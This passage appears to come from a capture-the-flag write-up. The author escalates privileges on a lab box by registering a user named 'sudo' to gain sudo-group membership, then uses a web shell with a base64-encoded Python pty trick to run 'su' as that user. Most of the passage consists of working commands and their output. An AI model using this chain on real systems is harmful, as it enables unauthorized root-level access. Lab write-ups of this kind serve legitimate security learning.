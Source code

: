 And if I use the username `sudo`, it will be in the `sudo` group, and that way I could run commands with root privileges.
When I create the `sudo` user:
```shell
$ daemon$ /opt/registerlauncher sudo
sudo@cybox.company has been created successfully. The credentials are
sudo:sudo. You should change your default password for security.
```
When I try to run a command like `sudo` user:
```shell
$ daemon$ echo sudo | su sudo -c id 2>&1
su: must be run from a terminal
```
When I google `run su command from a web shell`, then I [found a post](https://www.sans.org/blog/sneaky-stealthy-su-in-web-shells):

![evidence](./static/20-su-webshell.png)
And it says that I can use a shell terminal trick that relies on Python, and to turn the non-terminal web shell into a terminal shell, but I can not execute directly that command, and it is because my web shell is limited, and I can not use double quotes, or the `access_log` file will be broken, but I can send it `base64` encoded. When I encode the bash command with the `sudo:sudo` credentials:
```shell
$ echo "(sleep 1; echo sudo) | python -c \"import pty;
> pty.spawn(['/bin/su','sudo','-c','id']);\"" | base64 -w 0

KHNsZWVwIDE7IGVjaG8gc3VkbykgfCBweXRob24gLWMgImltcG9ydCBwdHk7IHB0eS5zcG
F3bihbJy9iaW4vc3UnLCdzdWRvJywnLWMnLCdpZCddKTsiCg==
```
When I use that output in the web shell:
```shell
$ daemon$ echo KHNsZWVwIDE7IGVjaG8gc3VkbykgfCBweXRob24gLWMgImltcG9ydCB
> wdHk7IHB0eS5zcGF3bihbJy9iaW4vc3UnLCdzdWRvJywnLWMnLCdpZCddKTsiCg== | \
> base64 -d | bash

Password:
uid=1003(sudo) gid=27(sudo) groups=27(sudo)
```